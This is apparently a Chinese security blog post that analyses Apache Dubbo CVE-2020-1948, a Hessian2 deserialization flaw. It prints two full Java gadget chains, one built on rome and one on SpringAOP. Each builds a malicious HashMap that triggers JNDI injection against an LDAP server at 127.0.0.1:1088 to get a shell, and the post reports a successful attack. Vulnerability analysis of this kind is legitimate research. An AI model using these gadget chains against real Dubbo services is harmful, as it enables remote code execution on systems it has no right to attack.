```yaml
---
typora-root-url: ../../../static
title: "Apache_Dubbo_CVE-2020-1948分析"
date: 2021-07-02T17:07:36+08:00
draft: false
categories: ["security"]
---
```


## 影响范围
**Dubbor <= 2.7.7**

为啥可以打到2.7.7而不是官方通告的2.7.6？回答如下：

[dubbo协议下的event事件][l3]

## rome Gadget分析
首先给出Gadget代码：

	//最后触发JdbcRowSetImpl.getDatabaseMetaData->JdbcRowSetImpl.connect->Context.lookup
    String jndiUrl = "ldap://127.0.0.1:1088/Exploit";
    //EqualsBean.beanHashCode调用ToStringBean.toString
    JdbcRowSetImpl rs = new JdbcRowSetImpl();
    rs.setDataSourceName(jndiUrl);
    rs.setMatchColumn("foo");
    Class<BaseRowSet> baseRowSetClazz = BaseRowSet.class;
    Field listenersField = baseRowSetClazz.getDeclaredField("listeners");
    listenersField.setAccessible(true);
    listenersField.set(rs, null);
    ToStringBean item = new ToStringBean(JdbcRowSetImpl.class,rs);
    //HashMap.hash调用EqualsBean.beanHashCode
    EqualsBean root = new EqualsBean(ToStringBean.class,item);
    //触发HashMap.put->HashMap.putVal->HashMap.hash
    HashMap<Object, Object> s = new HashMap();
    Class<? extends HashMap> clazz = s.getClass();
    Field sizeField = clazz.getDeclaredField("size");
    sizeField.setAccessible(true);
    sizeField.set(s,2);
    Class nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    } catch (ClassNotFoundException var6) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeCons = nodeC.getDeclaredConstructor(Integer.TYPE, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);
    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
    Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
    Field tableField = clazz.getDeclaredField("table");
    tableField.setAccessible(true);
    tableField.set(s,tbl);
    return s;

这个CVE依赖于靶机的 `rome` 依赖环境，需要使用这个依赖来作为Gadget。下面贴出完整的rome Gadget调用栈：

![][p1]

这里主要是 `com.rometools.rome.feed.impl.ToStringBean` 的 `toString()` 方法存在危险的操作，如下所示：

![][p2]

当调用到 `com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData()` 时，最终会触发JNDI注入。如下是 `com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData()` 的代码：

    public DatabaseMetaData getDatabaseMetaData() throws SQLException {
        Connection var1 = this.connect();
        return var1.getMetaData();
    }

跟进 `this.connect()` ，如下所示，发现JNDI注入点：

![][p4]

但是此Gadget需要如下依赖：

    <dependency>
        <groupId>com.rometools</groupId>
        <artifactId>rome</artifactId>
        <version>1.7.0</version>
    </dependency>

**实际上，生产环境中使用此依赖的情况比较少，所以此Gadget比较鸡肋。**

## Dobbo Invoke解析流程分析
前面已经说过，Dubbo支持Invoke和Event两种方式的请求。这个CVE是使用的Invoke（即调用Provider的method）方式进行请求的。直接贴出如下调用栈：

![][p3]

如上图调用栈所示，红框标注的就是基于 `Dubbo` 协议使用 `Hessian2` 的反序列化方式反序列化一个Object的过程，它是通过一个自定义的 `Hessian2ObjectInput` 来解析的Object。

通过读取 `Dubbo` 协议中的 `序列化标志位` 来判断通过使用哪个反序列化器来进行反序列化，这个CVE使用的是 `Hessian2ObjectInput` 。我们Gadget中序列化的是一个HashMap对象，所以最终 `Hessian2ObjectInput` 使用的是一个 `MapDeserializer` 来进行反序列化。最终在 `MapDeserializer#doReadMap()` 中调用了 `HashMap#put()` 从而触发Gadget。

如下是Dubbo协议的报文格式：

![][p5]

## SpringAop Gadget
前面分析过的 `rome Gadget` 实际上攻击面并不广，但是Dubbo默认间接引用了 `SpringAOP` ，我们实际攻击时，使用 `SpringAOP Gadget` 可以大大提高命中率。

以下是 `SpringAOP Gadget` 的代码：

    String jndiUrl="ldap://127.0.0.1:1088/Exploit";
    SimpleJndiBeanFactory bf = new SimpleJndiBeanFactory();
    bf.setShareableResources(jndiUrl);
    Field loggerField = JndiAccessor.class.getDeclaredField("logger");
    loggerField.setAccessible(true);
    loggerField.set(bf,new NoOpLog());
    JndiTemplate jndiTemplate = bf.getJndiTemplate();
    Class<? extends JndiTemplate> jndiTemplateClazz = jndiTemplate.getClass();
    Field jndiTemplateClazzLoggerField = jndiTemplateClazz.getDeclaredField("logger");
    jndiTemplateClazzLoggerField.setAccessible(true);
    jndiTemplateClazzLoggerField.set(jndiTemplate,new NoOpLog());
    DefaultBeanFactoryPointcutAdvisor pcadv = new DefaultBeanFactoryPointcutAdvisor();

    DefaultBeanFactoryPointcutAdvisor pcadv2 = new DefaultBeanFactoryPointcutAdvisor();
    pcadv2.setBeanFactory(bf);
    pcadv2.setAdviceBeanName(jndiUrl);

    HashMap<Object, Object> s = new HashMap();
    Class<? extends HashMap> hashMapClazz = s.getClass();
    Field sizeField = hashMapClazz.getDeclaredField("size");
    sizeField.setAccessible(true);
    sizeField.set(s,2);
    Class nodeC;
    try {
        nodeC = Class.forName("java.util.HashMap$Node");
    } catch (ClassNotFoundException var6) {
        nodeC = Class.forName("java.util.HashMap$Entry");
    }
    Constructor<?> nodeCons = nodeC.getDeclaredConstructor(Integer.TYPE, Object.class, Object.class, nodeC);
    nodeCons.setAccessible(true);
    Object tbl = Array.newInstance(nodeC, 2);
    Array.set(tbl, 0, nodeCons.newInstance(0, pcadv, pcadv, null));
    Array.set(tbl, 1, nodeCons.newInstance(0, pcadv2, pcadv2, null));
    Field tableField = hashMapClazz.getDeclaredField("table");
    tableField.setAccessible(true);
    tableField.set(s,tbl);
    return s;

调用栈如下所示：

![][p6]

Maven依赖如下：

    <!--加入Spring-aop框架-->
    <dependency>
      <groupId>org.springframework</groupId>
      <artifactId>spring-aop</artifactId>
      <version>5.3.5</version>
    </dependency>

主要是利用 `HashMap#put()` 触发 `AbstractPointcutAdvisor#equals()` ，此方法内会调用 `AbstractBeanFactoryPointcutAdvisor#getAdvice()` ，如下所示：

![][p7]

很明显，在 `AbstractBeanFactoryPointcutAdvisor#getAdvice()` 内可以利用 `SimpleJndiBeanFactory` 进行JNDI注入，最终GetShell。

## 漏洞复现
使用Invoke方式下的SpringAOP Gadget攻击成功：

![][p8]

## 参考文章
- [Dubbo协议详解][l1]
- [Dubbo协议解析][l4]
- [threedr3am：Dubbo反序列化测试工具(Github)][l2]

## 感谢
感谢 `threedr3am` 师傅分享EXP和Dubbo协议发包框架。




[p1]:/media/2021-07-02-01.png
[p2]:/media/2021-07-02-02.png
[p3]:/media/2021-07-05-03.png
[p4]:/media/2021-07-05-04.png
[p5]:/media/2021-07-05-05.png
[p6]:/media/2021-07-05-06.png
[p7]:/media/2021-07-05-07.png
[p8]:/media/2021-07-06-01.png






[l1]:https://cloud.tencent.com/developer/article/1658678
[l2]:https://github.com/threedr3am/dubbo-exp
[l3]:https://github.com/threedr3am/dubbo-exp/issues/3
[l4]:https://segmentfault.com/a/1190000023565425


